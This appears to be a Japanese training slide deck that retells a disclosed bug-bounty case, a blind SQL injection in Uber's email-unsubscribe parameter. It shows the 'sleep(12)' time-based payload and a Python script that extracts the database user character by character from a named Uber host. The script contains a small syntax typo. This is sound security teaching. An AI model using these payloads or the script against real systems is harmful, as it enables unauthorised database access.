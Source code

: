 
<style>
  .shiki-container {
    max-height: 400px;
    code {
      overflow: scroll;
    }
  }
</style>

---

# 実際に起きた事例

[リアルワールドバグハンティング (オライリージャパン)](https://www.oreilly.co.jp/books/9784873119212/)より

## Uber での事例

-   Uber からメール広告を受信
-   購読解除のリンクに base64 エンコードされたパラメータが付与されていた
-   そのパラメータは JSON 文字列で以下のようなものだった

    -   ```json
        { "user_id": "5755", "receiver": "orange@mymail" }
        ```

-   以下のように変更した JSON 文字列の base64 エンコードしたものを送信
    -   ```json
        { "user_id": "5755 and sleep(12)=1", "receiver": "orange@mymail" }
        ```

<div v-click>
12秒以上処理がかかるようになった！
</div>

---

# DB の User の特定

user()は SQL のユーザーとホストを\<user\>@\<host\>の形式で返す。
以下のような python のコードを実行してユーザーを特定したらしい

```py {all|10|14-16|all}
import json
import string
import requests
from urllib import quote
from base64 import b64encode
base = string.digits + string.letters + '_-@.'
payload ={ "user_id": "5755", "receiver": "blog.orange.tw" }
for l in range(0, 30):
  for i in base:
    payload['user_id'] = "5755 and mid(user(),%d,1)='%c'#"%(l+1. i)
    new_payload = json.dumps(payload)
    new_payload = b64encode(new_payload)
    r = requests.get('http://sctrack.email.uber.com.cn/track/unsubscribe.do?p='+quote(new_payload))
    if len(r.content)>0:
        print i,
        break
```

---
